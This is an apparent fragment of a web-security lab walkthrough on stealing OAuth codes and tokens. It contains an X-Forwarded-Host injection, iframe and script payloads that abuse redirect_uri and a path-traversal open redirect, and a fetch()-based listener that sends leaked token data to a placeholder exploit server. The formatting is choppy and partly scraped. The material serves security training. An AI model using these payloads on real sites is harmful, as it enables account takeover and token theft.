 
`X-Forwarded-Host: YOUR-EXPLOIT-SERVER-ID.exploit-server.net`

`<iframe src="https://oauth-YOUR-LAB-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net&response_type=code&scope=openid%20profile%20email"></iframe>`

`<script> if (!document.location.hash) { window.location = 'https://oauth-YOUR-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/next?path=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit/&response_type=token&nonce=399721827&scope=openid%20profile%20email' } else { window.location = '/?'+document.location.hash.substr(1) } </script>

```

`<iframe src="https://oauth-YOUR-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT_ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/comment/comment-form&response_type=token&nonce=-1552239120&scope=openid%20profile%20email"></iframe>`
    
1. Below this, add a suitable script that will listen for web messages and output the contents somewhere. For example, you can use the following script to reveal the web message in the exploit server's access log:
    
    `<script> window.addEventListener('message', function(e) { fetch("/" + encodeURIComponent(e.data.data)) }, false) </script>`

```



